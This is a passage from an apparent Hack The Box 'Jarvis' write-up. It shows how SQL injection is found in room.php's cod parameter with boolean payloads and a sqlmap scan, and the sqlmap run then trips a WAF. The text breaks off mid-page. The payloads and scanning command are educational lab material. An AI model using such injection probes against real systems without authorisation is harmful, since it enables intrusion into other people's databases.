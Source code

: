 The PHP file *room.php* seems to display information about the requested room. We can request information about other
rooms using the **cod** *GET parameter*:

```
http://jarvis.htb/room.php?cod=1  # Superior Family Room
http://jarvis.htb/room.php?cod=2  # Suite
http://jarvis.htb/room.php?cod=3  # Double Room
```

If we recall from earlier, we supposed there was some kind of *MySQL* database being used and this seems like a good
candidate for the purpose of this database so lets try a couple of things to see if it is inyectable:

```
http://jarvis.htb/room.php?cod=1               # Superior Family Room
http://jarvis.htb/room.php?cod=2-1             # Same as cod=1

http://jarvis.htb/room.php?cod=1 and 1=1       # Same as cod=1
http://jarvis.htb/room.php?cod=1 and 1=2       # Fails (doesn't display any room)
```

Bingo, the parameter *cod* seems to be *injectable*. In order to learn more about this vulnerability we can use the
powerful tool **sqlmap**.

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1'
[...]
[13:06:22] [CRITICAL] connection dropped or unknown HTTP status code received. [...]
[13:06:23] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[13:06:23] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
[13:06:24] [CRITICAL] unable to connect to the target URL ('Connection refused')
[13:06:24] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
[...]
```

After some basic testings, sqlmap detected the presence of a *WAF/IPS*. In fact, when I tried to return to the page
I found this:

<p align="center">